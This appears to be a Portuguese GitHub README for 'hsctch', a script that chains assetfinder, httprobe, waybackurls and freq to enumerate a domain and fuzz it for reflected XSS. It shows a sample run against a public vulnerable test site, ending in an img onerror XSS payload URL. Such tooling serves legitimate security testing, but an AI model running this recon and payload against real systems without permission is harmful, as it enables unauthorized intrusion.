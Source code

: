 # hsctch

#Acesse o diretorio onde fez o o download o arquivo .git

#Para executar use o comando abaixo:

#python3 /root/reconx-hsctch.py 

#Digite o domínio alvo (exemplo: dominio.com.br): 

testphp.vulnweb.com




_    _  _____  _____ _______ _____ _    _
| |  | |/ ____|/ ____|__   __/ ____| |  | |
| |__| | (___ | |       | | | |    | |__| |
|  __  |\___ \| |       | | | |    |  __  |
| |  | |____) | |____   | | | |____| |  | |
|_|  |_|_____/ \_____|  |_|  \_____|_|  |_|


                                           

Executando: 

Executando assetfinder
Comando: assetfinder -subs-only testphp.vulnweb.com | anew subdomains.txt
Saída: 
Executando assetfinder concluído com sucesso.

Executando: Executando httprobe
Comando: cat subdomains.txt | httprobe | tee -a host.txt
Saída: http://testphp.vulnweb.com

Executando httprobe concluído com sucesso.
Executando: Executando waybackurls
Comando: cat host.txt | waybackurls | tee -a endpoint.txt

Executando freq para encontrar possíveis XSS concluído com sucesso.
Executando: Buscando por XSS FOUND
Comando: grep 'XSS FOUND' possible_xss.txt > resultado.txt
Saída:
Buscando por XSS FOUND concluído com sucesso.
Busca concluída.

#ls

endpoint.txt  host.txt  possible_xss.txt  resultado.txt  subdomains.txt  xss_fuzz.txt

#cat resultado.txt

XSS FOUND: http://testphp.vulnweb.com:80/hpp/index.php?pp=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22


Obs: Para que o script funcione é necessário instalar os programas dos repositórios abaixo:

https://github.com/tomnomnom/assetfinder

https://github.com/takshal/freq

https://github.com/tomnomnom/waybackurls

https://github.com/tomnomnom/httprobe


